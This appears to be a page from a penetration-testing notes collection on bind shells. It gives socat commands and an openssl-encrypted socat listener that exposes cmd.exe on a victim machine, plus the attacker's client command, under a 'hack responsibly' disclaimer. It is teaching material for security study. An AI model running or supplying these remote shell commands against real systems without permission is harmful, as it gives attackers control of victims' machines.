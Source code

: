 # Getting Access

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.
{% endhint %}

TODO: description, methodology, and script prep for each section (issue [#15](https://github.com/zweilosec/Infosec-Notes/issues/15))

* Add description and methodology as needed for each section
* Prep all code examples for scripting (replace IPs and ports with variables, etc.)
* Ensure code examples' variables are appropriate for their respective programming language

## Bind shells

Bind shells are used when the attacker connects directly to the victim.

### socat

```bash
socat - TCP4:$victim_ip:$port
```

{% hint style="info" %}
The dash `-` is required to transfer keyboard data back and forth between the machines.
{% endhint %}

#### Encrypted bind shell

To create an encrypted bind shell, first a self-signed certificate must be created.  It must either be created on the victim machine, or transferred prior to using the bind shell.

```bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 365 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

This command will create a new 2048-bit encryption key and certificate using the RSA algorithm.  The certificate will be valid for 365 days.  The key and certifcate information must be combined into one .pem file using `cat`. &#x20;

Next, use socat to create the bind shell using this .pem certificate.  `verify=0` will be used to disable SSL verification.  Since you are using SSL on port 443 you need to run the listener with `sudo` if the victim machine is running Linux.

```bash
#listener on victim
socat.exe OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:"C:\Windows\System32\cmd.exe"
#attacker client
socat - OPENSSL:$IP:443,verify=0
```
